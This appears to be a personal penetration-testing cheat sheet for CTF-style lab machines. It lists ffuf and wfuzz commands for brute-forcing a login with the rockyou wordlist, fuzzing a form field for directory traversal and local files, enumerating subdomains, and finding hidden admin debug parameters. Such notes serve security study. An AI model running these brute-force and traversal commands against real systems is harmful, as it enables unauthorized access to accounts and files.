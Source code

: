 Fuzzing
========================


## FFUF

Brute force
    
    ffuf -c -w /usr/share/wordlists/rockyou.txt -r -mc 403 -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "j_username=admin&j_password=FUZZ&from=%2F&Submit=Sign+in" -u http://10.10.11.132:8080/j_spring_security_check]

    ffuf -c -w /usr/share/wordlists/rockyou.txt -r -mc 403 -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "j_username=admin&j_password=FUZZ&from=%2F&Submit=Sign+in" -u http://10.10.11.132:8080/j_spring_security_check

B rute force
    
    ffuf -c -w passwords_temp.txt -r -mc 403 -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "j_username=admin&j_password=FUZZ&from=%2F&Submit=Sign+in" -u http://10.10.11.132:8080/j_spring_security_check


Directory traversal

    ffuf -ic -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://haircut.htb/exposed.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://haircut.htb' -H 'Connection: keep-alive' -H 'Referer: http://haircut.htb/exposed.php' -H 'Upgrade-Insecure-Requests: 1' -d 'formurl=http%3A%2F%2Flocalhost%2FFUZZ&submit=Go' -fs 966 -x http://127.0.0.1:8080


## WFUZZ

Subdomain
    
    wfuzz -u https://streamio.htb -H "Host: FUZZ.streamio.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 315
    
LFI
    
    wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 1678 -H "Cookie: PHPSESSID=iijak2sj64mghckom5220vo5vo" https://streamio.htb/admin/?debug=FUZZ